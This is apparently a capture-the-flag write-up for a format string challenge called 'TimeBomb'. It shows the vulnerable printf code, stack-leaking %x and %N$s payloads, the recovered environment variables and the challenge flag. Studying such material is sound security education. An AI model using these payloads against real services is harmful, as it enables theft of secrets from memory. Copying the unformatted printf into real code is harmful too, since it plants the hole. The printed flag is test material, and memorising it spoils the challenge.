 # TimeBomb (850 Points)

## Challenge Description

<img src="./TimeBomb_850pts.jpg" width="300">

## Challenge Overview
TimeBomb was a binary exploitation challenge featuring a C program with a classic format string vulnerability. The challenge was accessible via `nc timebomb-dc33.hexnova.quest 9999` and required exploiting the vulnerability to extract a flag stored as an environment variable.

## Solution Steps

### Initial Analysis
We started by examining the vulnerable C code, which contained a critical format string bug in the `vuln()` function:

```c
void vuln() {
    char buffer[512];
    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);  // FORMAT STRING VULNERABILITY!
    exit(0);
}
```

The `printf(buffer)` call directly prints user input without a format specifier, creating a textbook format string vulnerability.

### Vulnerability Confirmation
Our first step was confirming the format string bug with a simple payload:
```
%x.%x.%x.%x.%x.%x.%x.%x
```

This revealed stack contents in hexadecimal format, confirming the vulnerability was exploitable and showing us the stack layout.

### Finding Input Position
To locate our input on the stack, we used:
```
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
```

We found our input (AAAA = 0x41414141) at stack position 6, which meant we could use `%6$n` for arbitrary writes if needed.

### Stack Reconnaissance 
We systematically mapped the stack using payloads like:
- `%40$p.%41$p...%50$p` 
- `%85$p.%90$p...%120$p`

This revealed promising high memory addresses around positions 105-120 that could point to environment variables.

### Environment Variable Extraction
The key insight was that the flag was stored as an environment variable, not requiring code execution. We used direct parameter access to read strings from specific stack positions:

- `%105$s` → `AWS_EXECUTION_ENV=AWS_ECS_FARGATE`
- `%110$s` → `LAMBDA_URL=https://yavdhl4qozqpiugwirgyfhj4hm0hpykh.lambda-url.us-west-1.on.aws/`
- `%115$s` → `FLAG=FLAG-{Reverse7heBombt0trigg3rflagc4fb5}` ✅

### Flag Recovery
The successful payload `%115$s` revealed the complete flag:
```
FLAG-{Reverse7heBombt0trigg3rflagc4fb5}
```

## Key Techniques
- Format string vulnerability exploitation
- Stack layout analysis and reconnaissance  
- Direct parameter access using `%N$s` syntax
- Environment variable extraction from memory
- Binary exploitation without code execution

## Tools Used
- `nc` for network connection
- Format string payloads for memory reading
- Systematic stack position enumeration
- Manual exploitation techniques

## Lessons Learned
This challenge demonstrated several important concepts:
- Format string vulnerabilities remain dangerous and common
- Environment variables are stored at predictable stack locations
- Sometimes information disclosure is sufficient without achieving code execution
- Systematic approach to stack reconnaissance is crucial for exploitation
- The `%N$s` syntax provides powerful direct memory access capabilities

The solution highlighted how format string bugs can be leveraged for information disclosure, showing that not all binary exploitation requires achieving code execution - sometimes reading sensitive data from memory is the intended path.